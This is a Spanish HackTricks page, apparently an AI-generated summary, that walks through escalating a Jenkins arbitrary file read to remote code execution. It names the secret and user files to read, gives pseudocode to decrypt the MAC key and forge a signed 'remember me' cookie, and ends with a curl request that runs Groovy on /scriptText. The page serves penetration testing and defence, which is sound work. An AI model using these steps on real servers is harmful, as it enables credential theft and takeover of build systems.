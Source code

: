 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

En esta publicación del blog es posible encontrar una gran manera de transformar una vulnerabilidad de Inclusión de Archivos Locales en Jenkins en RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este es un resumen creado por IA de la parte de la publicación donde se abusa de la creación de una cookie arbitraria para obtener RCE abusando de una lectura de archivos locales hasta que tenga tiempo para crear un resumen por mi cuenta:

### Requisitos Previos del Ataque

* **Requisito de Función:** "Recordarme" debe estar habilitado (configuración predeterminada).
* **Niveles de Acceso:** El atacante necesita permisos de Lectura/General.
* **Acceso Secreto:** Capacidad para leer tanto contenido binario como textual de archivos clave.

### Proceso de Explotación Detallado

#### Paso 1: Recolección de Datos

**Recuperación de Información del Usuario**

* Acceder a la configuración del usuario y secretos desde `$JENKINS_HOME/users/*.xml` para cada usuario para recopilar:
* **Nombre de usuario**
* **Semilla del usuario**
* **Marca de tiempo**
* **Hash de contraseña**

**Extracción de Claves Secretas**

* Extraer claves criptográficas utilizadas para firmar la cookie:
* **Clave Secreta:** `$JENKINS_HOME/secret.key`
* **Clave Maestra:** `$JENKINS_HOME/secrets/master.key`
* **Archivo de Clave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Paso 2: Falsificación de Cookies

**Preparación del Token**

*   **Calcular el Tiempo de Expiración del Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Agrega una hora al tiempo actual
```
{% endcode %}
*   **Concatenar Datos para el Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Desencriptación de la Clave MAC**

*   **Desencriptar el Archivo de Clave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertir la clave maestra al formato de clave AES128
decrypted = AES.decrypt(macFile, key)  // Desencriptar el archivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo de la Firma**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcular HMAC usando el token y la clave MAC
tokenSignature = bytesToHexString(mac)  // Convertir el MAC a una cadena hexadecimal
```

**Codificación de la Cookie**

*   **Generar la Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificar en Base64 los datos de la cookie
```
{% endcode %}

#### Paso 3: Ejecución de Código

**Autenticación de Sesión**

* **Obtener Tokens CSRF y de Sesión:**
* Hacer una solicitud a `/crumbIssuer/api/json` para obtener `Jenkins-Crumb`.
* Capturar `JSESSIONID` de la respuesta, que se utilizará junto con la cookie de recordar-me.

**Solicitud de Ejecución de Comando**

*   **Enviar una Solicitud POST con un Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* El script Groovy se puede utilizar para ejecutar comandos a nivel de sistema u otras operaciones dentro del entorno de Jenkins.

El comando curl de ejemplo proporcionado demuestra cómo hacer una solicitud a Jenkins con los encabezados y cookies necesarios para ejecutar código arbitrario de manera segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
